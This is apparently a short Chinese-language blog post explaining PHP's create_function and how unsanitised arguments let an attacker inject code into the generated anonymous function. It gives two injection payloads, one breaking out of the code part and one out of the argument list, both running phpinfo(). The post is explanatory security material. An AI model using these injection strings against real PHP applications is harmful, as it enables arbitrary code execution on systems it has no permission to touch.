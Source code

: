 ```yaml
---
layout: post
title: create_function的用法
categories: [web,php]
---
```

## create_function(`$arg`,`$code`)函数  
>$args 声明的函数变量部分  
>$code 执行的方法代码部分  
现在构造一个
```php
	$func=create_function($args,'echo "xxxxx".$args');
	$func("hello");
```
create_function() 会创造一个匿名函数 (lambda样式) 
实际上等价于  
```php
	function lambda($args){
       echo "xxxxx".$args;
    }
```
而此时由于参数的传入，这里就存在漏洞  
---
## 第一种是对于code的注入  
>payload: ?args=1;}phpinfo();/*  
此时代码变为  
```php
	function lambda($args){
       echo "xxxxx".1;
    }
    phpinfo();/*;
    }
```
---
## 第二种是对于args的注入
>payload: ?args=){phpinfo();}/*  
此时代码变为
```php
	function lambda($args){
		phpinfo();
	}
	/*){
       echo "xxxxx".$args;
    }
```